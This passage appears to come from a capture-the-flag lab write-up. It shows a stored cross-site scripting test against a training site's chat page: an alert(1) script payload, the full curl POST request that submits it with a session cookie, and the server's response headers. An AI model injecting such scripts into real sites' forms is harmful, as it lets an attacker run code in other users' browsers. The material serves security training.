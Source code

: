 ![image.png](image%2014.png)

**PAYLOAD:**

```bash
<script>alert(1)</script>
```

`curl --path-as-is -iLsk -X $'POST' -H $'Host: login.worldwap.thm' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 47' -H $'Origin: http://login.worldwap.thm' -H $'Connection: keep-alive' -H $'Referer: http://login.worldwap.thm/chat.php' -H $'Upgrade-Insecure-Requests: 1' -b $'PHPSESSID=vhn0g5jjj3ms24mlnc3e3n6pm6' --data-binary $'message=%3Cscript%3Ealert%281%29%3C%2Fscript%3E' $'http://login.worldwap.thm/chat.php'`

```bash
HTTP/1.1 302 Found
Date: Wed, 16 Oct 2024 09:17:32 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: chat.php
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

HTTP/1.1 200 OK
Date: Wed, 16 Oct 2024 09:17:32 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 2198
Connection: close
Content-Type: text/html; charset=UTF-8

```
